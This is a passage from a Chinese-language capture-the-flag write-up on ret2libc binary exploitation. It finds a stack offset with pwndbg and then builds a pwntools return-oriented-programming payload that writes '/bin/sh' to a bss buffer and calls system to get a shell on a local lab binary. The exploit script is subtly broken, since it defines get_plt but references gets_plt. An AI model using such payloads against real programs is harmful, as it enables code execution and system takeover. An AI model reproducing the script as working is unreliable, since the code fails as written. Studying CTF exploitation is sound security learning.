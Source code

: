       - 此时看到它给出了一个Invalid address

        执行`cyclic -l addr`

        ```shell
        pwndbg> cyclic -l 0x62616164
        112
        ```

        112就是s对于返回地址的偏移值（非常的Amazing啊）

- system函数也有返回地址，所以在中间要补一个函数，`0xdeadbeef`是我自己的恶趣味（），写`p32(0)`或者`b"AAAA"`就可以了、

- 32位传参就是从栈上从右向左拿参数，64位前六个参数则需是通过寄存器`rdi,rsi,rdx,rcx,r8,r9`的顺序传参，剩余的则按照32位从右向左取栈

## ret2libc2

这题在ret2libc1的基础上去掉了`binsh`字符串。也就是说，我们需要自己构建一个`gets`输入`/bin/sh`并作为`system`的参数引用。

在`vmmap`中可以看到data这个内存页是可写的

```shell
0x804a000  0x804b000 rw-p     1000 1000   /home/nova/Desktop/CTF/ctf-wiki/ret2libc/ret2libc2
```

![](https://cdn.novanoir.moe/img/image-20211214121414814.png)

那么我们考虑将`/bin/sh`写入到bss段上的`buf2`处

![image-20211214121848183](https://cdn.novanoir.moe/img/image-20211214121848183.png)

思路很明显了：

- 在程序的gets中覆盖返回地址到我们新的gets
- 新的gets将输入存到buf2地址处，并返回到system函数
- system函数调用buf2处的数据作为参数

接下来就是如何编写payload

给出两个exp。

### EXP1

```python
from pwn import *

sh = process('./ret2libc2')
elf = ELF("./ret2libc2")

get_plt = elf.plt["gets"]
system_plt = elf.plt["system"]
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

